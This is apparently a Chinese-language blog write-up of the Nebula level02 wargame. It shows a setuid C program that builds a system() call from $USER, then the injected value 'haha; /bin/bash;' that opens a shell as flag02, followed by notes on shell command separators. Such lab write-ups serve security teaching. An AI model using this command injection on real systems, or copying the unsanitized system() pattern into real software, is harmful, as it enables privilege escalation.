 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level02"
date: 2014-01-09 15:13:38 +0800
comments: true
categories: Security, Exercises, Nebula
---
```


基本过程与level01一样，先看/home/flag02/flag02的源代码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

<!-- more -->

先通过$USER构建了一个字符串，然后执行该字符串。比如正常情况下

	buffer="/bin/echo level02 is cool"

在这里echo程序用了绝对路径，不过那个$USER明显是让我们加以利用的……在本例中echo程序是动不了的了，那怎么能执行其他的命令呢？也很简单，Linux本来就可以在一行中执行多条语句，这里选择用“;”来分割。如下修改$USER

	USER="haha; /bin/bash"

其实这里完全可以使用/bin/getflag的，就直接过掉了，不过每次都这么玩儿没意思，试试开个console吧。修改之后执行：

``` bash
~ $ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash is cool")
haha
/bin/bash: is: No such file or directory
```

擦，bash执行的时候把后边的is cool当成参数了，这也简单，再次祭出“;”把bash跟他们分开

``` bash
USER="haha; /bin/bash;"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash; is cool")
haha
flag02@nebula:~$
```

这样就开了个用户为flag02的bash出来。

### 补充

其实Linux中分隔命令不止“;”这一种方法，总结下这些分隔符的不同如下：

- “;”：顺序执行所有命令，后一个在前一个之行结束之后才会执行
- “&&”：顺序执行，前一个命令成功执行之后才会执行下一个
- “||”：顺序执行，知道成功执行了一个命令为止（如果第一个成功了，后边的就不会执行）

还有种方法也可以起到在一行中分隔多个命令的方法，是使用“&”符号，“&”的本意是在一个新的进程中执行命令，对于分割命令这个目的而言算是一种曲线救国的方法了吧……注意因为“&”本身并不是为分隔命令而用的，所以跟其他的有些许不一样，比如以下两条命令

``` bash
$ la & ll
$ la & ll &
```

第一条会在新的进程中执行la，而在本进程中执行ll，第二条则会新起两个进程分别执行la和ll。